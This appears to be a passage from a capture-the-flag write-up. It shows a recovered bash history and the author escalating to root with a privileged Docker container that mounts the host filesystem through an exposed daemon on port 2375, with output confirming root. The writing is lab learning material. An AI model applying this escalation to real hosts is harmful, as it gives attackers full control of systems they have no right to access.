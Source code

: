 ```
cd flag/
cat Gemfile
rails s
rails --version
rails 
apt-get remove rails
reboot
ip addr
apt-get install ssh
sudo apt-get install ssh
ls
gem uninstall rails 
gem
gem unistall rails
rvm
ls
netstat -antl
apt-get remove rails
rails
rails -v
ls
netstat -antl
sudo apt-get install docker
sudo service docker status
sudo reboot
ps aux
ip addr
ls
cd /root
ls
cd flag/
ls
cd ..
rm -r flag/
apt-get remove redis
nano root.txt
exit
sudo deluser USERNAME sudo
sudo deluser atena sudo
exit
sudo -s
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
uname -a
exit
```

As I (hopefully) had nothing to lose, I just started to run the docker command, which was executed to see what would happen. This seems to have been the trick as I suddenly had root rights.

```
atena@ubuntu:~$ docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
/ # ls
bin    etc    lib    mnt    proc   run    srv    tmp    var
dev    home   media  opt    root   sbin   sys    usr
/ # whoami
root
```
